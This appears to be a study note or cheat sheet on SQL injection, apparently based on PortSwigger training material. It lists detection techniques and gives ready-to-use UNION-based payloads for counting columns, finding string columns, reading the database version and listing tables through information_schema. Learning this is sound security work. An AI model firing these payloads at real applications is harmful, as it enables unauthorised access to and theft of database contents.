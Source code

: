 # SQL injection

## How to detect SQL injection vulnerabilities
- The single quote character `'` and look for errors or other anomalies.
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
- Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
- OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

## SQL injection in different parts of the query
- Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
- However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT [column, table], ORDER BY)

## Warning: OR 1=1 
- If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

## SQL injection UNION attacks
- Requirements
  - How many columns are being returned from the original query
  - Which columns returned from the original query are of a suitable data type to hold the results from the injected query

### Determining the number of columns required
- First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  - Example (the injection point is a quoted string within the `WHERE` clause)
  - ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
- Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  - NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct. 
  - ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
- Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

### Database-specific syntax
- Example:
  - Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  - MySQL: the double-dash sequence must be followed by a space
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

### Finding columns with a useful data type
- Do you want a string?
  - ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
   ```
  - Error example: Conversion failed when converting the varchar value 'a' to data type int.
   - If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

## Examining the database 
| Database type 	| Query |
| ----- | ----- |
| Microsoft, MySQL | 	SELECT @@version |
| Oracle 	| SELECT * FROM v$version |
|PostgreSQL | 	SELECT version() |
- `' UNION SELECT @@version--`
- Listing the contents of the database
- Most database types (except Oracle) have a set of views called the information schema
  - `information_schema.tables `
    - ` SELECT * FROM information_schema.tables`
  - ` information_schema.columns `
    - `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Oracle:
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

